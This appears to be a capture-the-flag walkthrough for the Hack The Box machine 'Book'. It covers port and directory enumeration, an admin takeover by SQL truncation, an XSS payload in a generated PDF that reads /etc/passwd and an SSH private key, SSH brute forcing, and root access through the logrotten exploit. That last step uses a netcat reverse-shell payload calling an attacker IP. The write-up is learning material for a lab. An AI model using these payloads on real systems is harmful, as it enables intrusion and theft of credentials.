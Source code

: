 IP Address: 10.10.10.176

1. nmap
nmap -sV -sC -Pn -T4 -v -p- --min-rate=10000 10.10.10.176
Output: nmap-output.txt

Ports 22, 80 open.

2. gobuster

gobuster dir -u 10.10.10.176 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Output: gobuster-output.txt

/images, /docs (no access), /admin (admin access sign in!)

3. Webpage Analysis:

Can sign up, there's an index.php file.

Sign in value checks if it's an email.
Sign up email bar also checks this.
Made a fake account:
Email a@a
Password a

Password

Using Burpsuite, when logging in:
Cookie: PHPSESSID=ptdmd5m1a2cc94s6ii2veam74p

Admin Email Address: admin@book.htb

You can upload a book (PDF) with a book title, and author, download books, search for books, and give feedbacks for books.


4. wfuzz php:
wfuzz -u http://10.10.10.176/FUZZ.php -w /usr/share/seclists/Discovery/Web-Content/common.txt --sc 200

2 outputs:
ID           Response   Lines    Word     Chars       Payload                                          
===================================================================

000001336:   200        0 L      0 W      0 Ch        "db"                                             
000002148:   200        321 L    683 W    6800 Ch     "index"

wfuzz txt: Nothing.

5. dirsearch:
sudo dirsearch -u 10.10.10.176 -e *
Output: dirsearch-output.txt

6. SQL Truncation Attack

We know the sign in page takes email + password.

Script from page source:
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}

So it has a validation of < 20 characters.

SQL Truncation Attack: https://resources.infosecinstitute.com/sql-truncation-attack/#gref

Therefore, start Burp Suite, sign up details:

Name = admin1 ##Put this as a different name if it matches the name.
Email = admin@book.htb
Password = a

In the intercepted packet:

name=admin&email=admin%40book.htb&password=a
to
name=admin&email=admin%40book.htb                          C&password=a

Note the spaces and the C in the end --> The email will be noted as a seperate row in the database, but truncated to 20 characters. Therefore, you'll have 2 admin@book.htb emails, but with different passwords. So now you can log in with admin@book.htb with password `a`.

Login on admin panel /admin:

admin@book.htb
a

We can now download collections (pdfs).

Exploit: https://translate.googleusercontent.com/translate_c?depth=1&pto=aue&rurl=translate.google.com&sl=auto&sp=nmt4&tl=en&u=https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html&usg=ALkJrhiGtwsXgvKghE_MRSuxrPEVgsbTwg

Essentially, by using the following script as the book + author:

<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

we will be able to pull files.

Reasoning: The value of the thing requested in the HTML is reflected in the PDF. (see test-d1.pdf for normal upload/download without any script). Therefore, by manipulating that using the above script will instead print the information inside those files.

Let's get the /etc/passwd file first.

Script:
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

File to Upload: test.pdf

Download: Go to admin page, Collections, Export "Collections" PDF.
Output: etcpasswd.pdf

There is a "reader" user in there. Let's try Hydra:
hydra -l reader -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.10.10.176

Hydra did not work --> Instead, download id_rsa file
Script:

<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>

Run pdf2text (downloaded)

Log in using reader_id_rsa
We're in!

reader@book:~$ cat user.txt
51c1d4b5197fa30e3e5d37f8778f95bc

---
Privilege Escalation to root

Ran
Server version: Apache/2.4.29 (Ubuntu)
Found an Apache Logrotate exploit, didn't work.

Found logrotten --> Looking through enumeration.txt, found root changing log file when

Download logrotten on victim machine, then:

1. Make Payload File
reader@book:~$ cat payloadfile
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 4444 >/tmp/f

2. Compile logrotten on Victim
reader@book:~$ gcc -o logrotten logrotten.c

3. Launch logrotten on Victim
reader@book:~$ ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...

4. On Kali, start nc
nc -lvnp 4444

5. Copy following:
cat /root/.ssh/id_rsa

6. In a second terminal screen, ssh into reader again.
echo " " >> /home/reader/backups/access.log

7. On logrotten, you'll get the following output:
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!

8. Paste (5) on both the logrotten, and on the nc terminals, pressing enter.

9. The file cat will show on the bottom! (The shell closes after the one command pretty fast, so do it quickly).

Then save SSH key: root_id_rsa

ssh -i root_id_rsa root@10.10.10.176

root@book:~# cat root.txt
84da92adf998a1c7231297f70dd89714

https://translate.googleusercontent.com/translate_c?depth=1&pto=aue&rurl=translate.google.com&sl=auto&sp=nmt4&tl=en&u=https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html&usg=ALkJrhiGtwsXgvKghE_MRSuxrPEVgsbTwg

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/whotwagner/logrotten
